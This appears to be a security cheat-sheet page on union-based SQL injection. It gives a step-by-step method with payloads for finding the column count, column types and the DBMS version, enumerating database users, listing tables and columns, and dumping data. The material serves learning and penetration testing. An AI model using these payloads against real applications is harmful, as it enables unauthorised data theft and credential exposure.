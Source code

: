 # Union-based SQLi

[Go back](../sql.md)

<div class="row row-cols-lg-2"><div>

Union-based refer to using the UNION clause in the injected SQL to concatenate illegally fetched records to the usual results.

For instance, given a request returning the list of products, we could append to it the list of users and their passwords.

🙌 When injecting an union payloads, you usually only want to see the union results. Simply use a search query with no results.
</div><div>

⚠️ It can only be achieved both queries have the **same number of attributes+type** in the SELECT <small>(as per the property of the UNION clause)</small>.

```sql!
SELECT 1 UNION SELECT 1;          -- ok
SELECT 1, 2 UNION SELECT 1;       -- not ok
SELECT 1, 2 UNION SELECT 1, "2";  -- not ok (on a table)
SELECT 1, 2 UNION SELECT 1, NULL; -- ok
```
</div></div>

<hr class="sep-both">

## Manual Union-based SQLi

<div class="row row-cols-lg-2"><div>

#### Number of columns selected

The first step is to find how many columns there are in the SELECT. There are two popular ways, using `UNION` or `ORDER BY`.

Even if SQL errors are not displayed, if the results is "unexpected" <small>(ex: no results)</small>, we know that the request failed.

<details class="details-n">
<summary>Method 1: <code>UNION SELECT</code></summary>

```sql!
UNION SELECT NULL -- fail
UNION SELECT NULL, NULL -- fail
UNION SELECT NULL, NULL, NULL -- fail
UNION SELECT NULL, NULL, NULL, NULL -- OK
```
</details>

<details class="details-n">
<summary>Method 2: <code>ORDER BY</code></summary>

`ORDER BY` can take a number representing the $nth$ argument in the select. If you use an invalid $n$, then the request fails.

```sql!
ORDER BY 1 -- fail
ORDER BY 2 -- fail
ORDER BY 3 -- fail
ORDER BY 4 -- OK
```
</details>

In the example, we have 4 parameters.

<br>

#### Find the type of each column

The UNION will fails if a column in the first select has a different type in the second select. You should check the type of each column, by using `UNION SELECT` with value others than NULL.

```sql!
UNION SELECT 1, NULL, NULL, NULL -- KO
UNION SELECT "1", NULL, NULL, NULL -- OK
UNION SELECT "1", "1", NULL, NULL -- OK
...
```

<br>

#### Find which columns are displayed

Simply replace every `NULL` with a value, such as increasing numbers. If a value is not displayed, then skip it and work on other attributes.
</div><div>

#### Find the DBMS used

The second objective is to find the DBMS, and its version, just to ensure that any following query is valid in the DBMS language.

```sql!
UNION SELECT @@version, NULL, NULL, NULL
UNION SELECT sqlite_version(), NULL, NULL, NULL
UNION SELECT VERSION(), NULL, NULL, NULL
UNION SELECT (SELECT banner FROM v$version), NULL, NULL, NULL
-- see also: DMBS-specific functions, etc.
...
```

👉 You can fetch the user too with `user()` or enumerate users:

```sql!
UNION SELECT group_concat(user), NULL, NULL, NULL from mysql.user
```

<br>

#### Extract data

To extract data, you need to find the **database**, the **table**, and the **columns**. It's an extensive operation.

<details class="details-n">
<summary>MariaDB/MySQL/PostgreSQL</summary>

```sql!
-- list databases, mostly unused as we use the current database
UNION SELECT SCHEMA_NAME, NULL, NULL, NULL FROM INFORMATION_SCHEMA.SCHEMATA
-- current database
UNION SELECT database(), NULL, NULL, NULL
-- table given 'database'
UNION SELECT group_concat(table_name), NULL, NULL, NULL FROM information_schema.tables WHERE TABLE_SCHEMA='database_name'
-- columns given 'table' and 'database'
UNION SELECT group_concat(column_name), NULL, NULL, NULL FROM information_schema.columns WHERE TABLE_SCHEMA='database_name' AND TABLE_NAME='table_name'
-- dump
UNION SELECT group_concat(col1,":",col2 SEPARATOR '<br>'), NULL, NULL, NULL FROM database_name.table_name
```
</details>

<details class="details-n">
<summary>SQLite</summary>

```sql!
-- table
UNION SELECT group_concat(tbl_name) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%'
-- dump
UNION SELECT group_concat(col1 || ":" || col2, '<br>'), NULL, NULL, NULL FROM table_name
```
</details>
</div></div>